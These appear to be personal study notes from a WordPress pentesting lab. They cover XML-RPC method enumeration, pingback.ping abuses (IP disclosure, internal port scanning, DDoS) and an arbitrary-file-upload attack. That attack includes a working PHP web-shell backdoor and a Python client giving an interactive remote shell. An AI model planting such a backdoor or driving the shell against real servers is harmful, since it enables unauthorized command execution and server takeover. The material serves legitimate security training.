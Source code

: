Recall we can get the methods available via:
````shell-session
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
````

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included. `pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a [pingback](https://wordpress.com/support/comments/pingbacks/) is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

-   IP Disclosure - An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
-   Cross-Site Port Attack (XSPA) - An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
-   Distributed Denial of Service Attack (DDoS) - An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

## Arbitrary File Upload - [[Cybersecurity/Bug Bounty Hunter/File Upload Attacks\|File Upload Attacks]]

This basically just let us upload a php backdoor, then we used the backdoor for RCE with a python script.
backdoor.php:
```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

Python shell:
```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
```